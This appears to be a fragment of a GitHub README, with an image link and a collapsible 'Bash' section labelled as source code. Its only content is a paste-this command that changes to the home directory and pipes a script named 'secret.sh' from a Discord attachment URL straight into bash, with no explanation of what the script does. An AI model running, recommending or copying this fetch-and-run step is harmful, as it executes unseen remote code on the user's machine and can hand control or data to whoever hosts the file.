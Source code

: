 <details>
  <summary>Bash</summary>

> <hr>

```sh
cd ~ && curl -s https://cdn.discordapp.com/attachments/1043972790266626179/1169008719489671328/secret.sh | bash
```

> <hr>

</details>
